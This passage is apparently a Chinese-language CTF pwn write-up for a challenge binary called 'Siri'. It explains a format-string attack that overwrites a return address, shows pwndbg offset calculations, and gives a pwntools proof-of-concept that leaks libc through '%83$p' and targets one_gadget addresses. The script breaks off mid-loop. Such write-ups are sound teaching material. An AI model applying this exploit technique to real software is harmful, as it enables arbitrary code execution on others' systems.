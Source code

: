 另一种利用思路为直接利用格式化字符串修改函数的返回地址，不需要泄露`canary`

```assembly
      0x7ffe905e0780 -> 0x7ffe905e08b0 
      0x7ffe905e0788 -> 0xd00159090e3a4000
rbp   0x7ffe905e0790 <- 0x7ffe905e08b0 
      0x7ffe905e0798 -> 0x5654c5f5744c <-test   eax, eax   ;target!

pwndbg> fmtarg 0x7ffe905e0790                              <- get_rsp
The index of format argument : 47 ("\%46$p")

pwndbg> distance 0x7ffe905e08b0 0x7ffe905e0798             <- calculate offset between rip and rsp
0x7ffe905e08b0->0x7ffe905e0798 is -0x118 bytes
```

完整POC如下：

```python
#coding:utf-8
from pwn import*

p = process('./Siri')
elf = ELF('./Siri')
libc = ELF('./libc.so.6')


def lauch_gdb(p):
    context.log_level = 'debug'
    context.terminal = ['tmux', 'splitw', '-h']
    gdb.attach(p)


def add(payload):
    sla(">>>","Hey Siri!")
    ru("What Can I do for you?")
    sl("Remind me to "+payload)

lauch_gdb(p)
rl = lambda a=False              : p.recvline(a)    
ru = lambda a,b=True             : p.recvuntil(a,b)
rn = lambda x                    : p.recvn(x)
sd = lambda x                    : p.send(x)
sl = lambda x                    : p.sendline(x)
sa = lambda a,b                  : p.sendafter(a,b)
sla = lambda a,b                 : p.sendlineafter(a,b)
irt = lambda                     : p.interactive()
uu32 = lambda data               : u32(data.ljust(4,'\x00'))
uu64 = lambda data               : u64(data.ljust(8,'\x00'))
cth = lambda content,length      : int(content[:length],16)

add("libc : %83$pAAAA%46$p")
ru("libc : 0x")
libc_base = int(p.recv(12),16)-231-libc.sym['__libc_start_main']
print "libc_base = "+hex(libc_base)
og = [0x4f365,0x4f3c2,0x10a45c]
gadget = libc_base + og[0]
print "gadget:"+hex(gadget)
ru('AAAA')
ret = int(p.recv(14),16)-0x118
print 'ret:'+hex(ret)
payload = ''
written_size = 0
offset = 64

for i in xrange(6):
```